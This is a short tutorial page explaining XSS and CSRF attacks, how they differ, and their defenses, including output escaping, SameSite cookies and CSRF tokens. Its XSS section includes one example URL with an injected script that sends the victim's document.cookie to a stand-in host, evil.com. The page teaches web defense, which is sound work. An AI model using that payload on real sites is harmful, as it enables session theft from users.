

# CSRF & XSS Basics

Two of the most common web attack classes — different mechanisms, different defenses, easy to
conflate by name alone.

## XSS (Cross-Site Scripting) — injecting a script that runs as the victim

XSS happens when an attacker gets **their own JavaScript to run in another user's browser**, in
the context of a legitimate site — meaning that script can do anything the real page's JavaScript
could: read cookies (unless `HttpOnly`, see [Cookies & Sessions](./cookies-and-sessions.md)), make
authenticated requests, read the page's content.

```text title="A classic reflected-XSS example"
https://example.com/search?q=<script>fetch('https://evil.com/steal?c='+document.cookie)</script>
```

If a page takes `q` from the URL and renders it into the page **without escaping it**, that
`<script>` tag actually executes in the victim's browser, as if the site itself wrote it.

**The core defense**: always escape/encode user-supplied content before rendering it into HTML —
modern frameworks (React, Vue, most templating engines) do this by default for you, which is a
large part of why XSS is less common than it used to be. It resurfaces whenever something
deliberately bypasses that default escaping (`dangerouslySetInnerHTML` in React, `v-html` in Vue,
raw string concatenation into HTML).

## CSRF (Cross-Site Request Forgery) — tricking the browser into sending a request it shouldn't

CSRF doesn't inject any script at all — it exploits the fact that a browser **automatically**
attaches cookies to requests, even ones triggered by a completely different site.



The victim never has to see or click anything obvious — a hidden auto-submitting form or even a
simple `` (for a naively-built `GET`
endpoint — see why unsafe actions must never use `GET`, in
[Idempotency & Safety](../02-methods-and-semantics/idempotency-and-safety.md)) is enough.

**The core defenses**:
- **`SameSite` cookies** (`Lax` or `Strict` — see [Cookies & Sessions](./cookies-and-sessions.md))
  — stops the browser from attaching the cookie to a cross-site request in the first place. This
  alone closes most CSRF attack paths in modern browsers.
- **CSRF tokens** — a unique, unpredictable value embedded in the legitimate page's form, checked
  on submit. An attacker's forged request can't know this value in advance (it's not something a
  cookie carries automatically), so a forged submission fails the check.

## The key distinction, side by side

| | XSS | CSRF |
|---|---|---|
| What it does | Runs attacker JS in the victim's browser | Tricks the browser into sending a request the user didn't intend |
| What it exploits | Missing output escaping | Automatic cookie attachment on cross-site requests |
| Primary defense | Escape all user input before rendering | `SameSite` cookies + CSRF tokens |
| Can it read responses? | Yes (it's your own JS, running with full page access) | No (the attacker never sees the response, only triggers the request) |

Both ultimately target the same thing — the trust a server places in "a request came with a valid
session cookie, so it must be legitimate" — from two different angles.
